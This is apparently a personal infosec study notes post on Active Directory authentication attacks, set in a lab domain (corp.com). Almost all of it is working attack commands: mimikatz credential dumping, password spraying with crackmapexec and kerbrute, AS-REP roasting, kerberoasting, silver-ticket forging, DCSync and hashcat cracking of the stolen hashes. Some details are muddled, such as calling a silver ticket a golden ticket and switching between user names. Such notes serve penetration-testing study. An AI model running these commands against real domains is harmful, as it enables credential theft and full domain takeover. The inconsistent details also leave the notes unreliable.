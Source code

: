 ```yaml
---
layout: post
title: Active Directory Auth Attacks
titledate: 09/26/23
tags: ["infosec", "offsec", "ad", "powershell", "mimikatz", "rubeus", "impacket", "hashcat"]
---
```


#### pass cracking

    PS> .\mimikatz.exe

dump user hashes

    mimikatz# sekurlsa::logonpasswords

open another powershell window to create a service ticket

    PS> dir \\web04.corp.com\backup

can show that ticket in mimikatz

    mimikatz# sekurlsa::tickets

view lockout information

    PS> net accounts

slow password spraying attack using LDAP and ADSI

    PS> powershell -ep bypass

we can use a wordlist for passwords

    PS> .\Spray-Passwords.ps1 -Pass password! -Admin

our attack machine also has the tool crackmapexec that we can use to perform a similar sprayin function with an argument continue-on-success that will continue guessing even if accounts are found
    
    $ crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success

### crackmapexec output is Pwned if user has admin privs on a machine

another tool is called kerbrute

    PS> .\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt .\passwords.txt

for these 2 tools we can provide a list of usersnames that we've enumerated for the domain or we can use built in enumeration options in the tools

#### AS-REP roasting

if we have discovered pete's creds we can use GetNPUsers

    $ impacket-GetNPUsers -dc-ip 192.168.1.1  -request -outputfile hashes.asreproast corp.com/jim

this determines another user dave has the option Do not require Kerberos preauth enabled

this means his account is vulnerable to AS-REP roasting

let's determine which mode to use with hashcat

    $ hashcat --help | grep -i "Kerberos"

    $ sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

to peform as-rep roasting on widows we use Rubeus

    PS> .\Rubeus.exe asreproast /nowrap

this will give us the as-rep hash of a user

then back on our kali machine 

    $ sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

#### kerberoasting

    PS> .\Rubeus.exe kerberoast /outfile:hashes.kerberoast

we need hashcat to crack a TGS-rep hash

    $ sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

if we can't run rubeus we can use impacket

    $ sudo impacket-GetUserSPNs -request -dc-ip 192.168.1.1 corp.com/john

#### silver ticket

we need a silver ticket to get access to an HTTP SPN resource

let's see if our user has access to the resource of the HTTP SPN mapped to the iis_service

    PS> iwr -UseDefaultCredentials http://web04

launch PS as admin adn load mimikatz

    mimikatz# privilege::debug

now we can dump the NTLM hash of the user that is mapped to the HTTP SPN , in this case iis_service

    mimikatz# sekurlsa::logonpasswords

this will give us the SID we need

    mimikatz# kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin

this will create a <h3>golden ticket</h3> for the user jeffadmin

we confirm our ticket is created and available

    PS> klist

### NOTE: needs to happen inside the same cmd window/ process

now we can try to verify if we have access to the HTTP SPN like we did before

    PS> (iwr -UseDefaultCredentials http://web04).Content

.Content to get the html content of the page

we've forged a service ticket for a user that gives us access to a web page

#### dcsync 

we canuse mimikatz for this attack

    mimikatz# lsadump::dcsync /user:corp\jim

then crack the pass with hashcat

    $ hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

against the admin

    mimikatz# lsadump::dcsync /user:beyond\Administrator

with impacket providing a user with access and the domain controller

    $ impacket-secretsdump -just-dc-user jim corp.com/jeffadmin:"pass123!"@192.168.1.1
